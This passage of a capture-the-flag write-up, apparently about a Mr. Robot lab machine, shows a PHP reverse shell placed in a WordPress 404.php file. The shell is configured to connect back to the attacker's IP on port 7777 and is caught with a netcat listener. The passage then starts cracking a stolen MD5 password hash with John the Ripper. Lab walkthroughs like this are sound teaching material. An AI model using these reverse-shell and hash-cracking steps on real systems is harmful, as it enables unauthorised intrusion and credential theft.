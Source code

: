 Before injecting the script, I updated the ```$ip``` variable to my attacking machine's IP and set ```$port``` to 7777, which I would use to capture the reverse shell connection:

```php
$ip = '192.168.227.4';  
$port = 7777; 
```

### Establishing a Reverse Shell with Netcat
I set up a Netcat listener on my attacking machine to listen for incoming connections on port 7777:

```bash
Copia codice
nc -lnvp 7777
```

### Triggering the Reverse Shell
To trigger the reverse shell, I visited a non-existent page on the target website, such as ```http://192.168.227.7/nonexistentpage```. Since the ```404.php``` file is triggered by these types of requests, the reverse shell was executed, and I gained a shell on the target machine.

**Netcat Listener Output:** Once the reverse shell was triggered, a connection was established, and I had remote access to the target machine.

<img src="images/netcat.png" style="align: right" alt="nmap" width="600"/>

### Exploring the File System
Once I had shell access, I began exploring the file system and found two files of interest in the ```/home/robot``` directory:

```key-2-of-3.txt*```: This file contained the second flag, but I was unable to read it due to permission restrictions.
```password.raw-md5```: This file contained an MD5 hashed password, which I suspected belonged to the user robot.

<img src="images/ls-to-robot.png" style="align: right" alt="nmap" width="600"/>

At this point, I needed to escalate my privileges in order to read the second flag.

## Privilege Escalation
I decided to crack the MD5 hash contained in password.raw-md5 using John the Ripper, a widely used password-cracking tool.

#### Steps to Crack the Hash:
1. First, I extracted the MD5 hash from the file ```password.raw-md5``` and saved it in a new file called hash:

```bash
echo c3fcd3d76192e4007dfb496cca67e13b > hash
```
